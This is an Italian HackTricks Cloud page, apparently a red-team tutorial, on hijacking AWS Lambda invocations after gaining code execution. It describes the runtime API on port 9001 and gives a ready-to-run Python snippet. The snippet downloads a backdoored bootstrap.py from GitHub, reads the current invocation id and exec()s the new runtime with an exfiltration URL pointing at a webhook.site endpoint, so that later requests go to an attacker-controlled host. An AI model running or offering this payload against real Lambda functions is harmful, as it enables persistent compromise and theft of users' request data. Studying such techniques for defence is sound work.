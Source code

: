 # AWS - Rubare le Richieste Lambda

<details>

<summary><strong>Impara l'hacking AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team di HackTricks AWS)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository di Github.

</details>

## Flusso Lambda

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** è un processo al di fuori del container che **invia** **invocazioni** al processo **init**.
2. Il processo init ascolta sulla porta **9001** esponendo alcuni endpoint interessanti:
* **`/2018-06-01/runtime/invocation/next`** – ottenere il prossimo evento di invocazione
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – restituire la risposta dell'handler per l'invocazione
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – restituire un errore di esecuzione
3. **bootstrap.py** ha un loop che ottiene le invocazioni dal processo init e chiama il codice degli utenti per gestirle (**`/next`**).
4. Infine, **bootstrap.py** invia al processo init la **risposta**

Si noti che bootstrap carica il codice dell'utente come un modulo, quindi qualsiasi esecuzione di codice eseguita dal codice degli utenti avviene effettivamente in questo processo.

## Rubare le Richieste Lambda

L'obiettivo di questo attacco è fare in modo che il codice degli utenti esegua un processo **`bootstrap.py`** malizioso all'interno del processo **`bootstrap.py`** che gestisce la richiesta vulnerabile. In questo modo, il processo **bootstrap malizioso** inizierà a **comunicare con il processo init** per gestire le richieste mentre il processo **legittimo** di bootstrap è **intrappolato** eseguendo quello malizioso, quindi non chiederà richieste al processo init.&#x20;

Questo è un compito semplice da realizzare poiché il codice dell'utente viene eseguito dal legittimo **`bootstrap.py`** processo. Quindi l'attaccante potrebbe:

* **Inviare un falso risultato dell'invocazione corrente al processo init**, in modo che init pensi che il processo bootstrap stia aspettando ulteriori invocazioni.
* Deve essere inviata una richiesta a **`/${invoke-id}/response`**&#x20;
* L'invoke-id può essere ottenuto dalla stack del legittimo processo **`bootstrap.py`** utilizzando il modulo python [**inspect**](https://docs.python.org/3/library/inspect.html) (come [proposto qui](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) o semplicemente richiedendolo nuovamente a **`/2018-06-01/runtime/invocation/next`** (come [proposto qui](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Eseguire un **`bootstrap.py`** malizioso che gestirà le prossime invocazioni
* Per scopi di furtività, è possibile inviare i parametri delle invocazioni lambda a un C2 controllato dagli attaccanti e quindi gestire le richieste come al solito.
* Per questo attacco, è sufficiente ottenere il codice originale di **`bootstrap.py`** dal sistema o da [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), aggiungere il codice malizioso ed eseguirlo dall'invocazione lambda corrente.

### Passaggi dell'Attacco

1. Trova una vulnerabilità **RCE**.
2. Genera un **bootstrap** **malizioso** (ad es. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Esegui** il bootstrap malizioso.

Puoi facilmente eseguire queste azioni eseguendo:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Get invocation id
resp = http.request("GET", "127.0.0.1:9001/2018-06-01/runtime/invocation/next")
invoke_id = resp.headers["Lambda-Runtime-Aws-Request-Id"]

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Per ulteriori informazioni controlla [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Riferimenti

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Impara l'hacking su AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
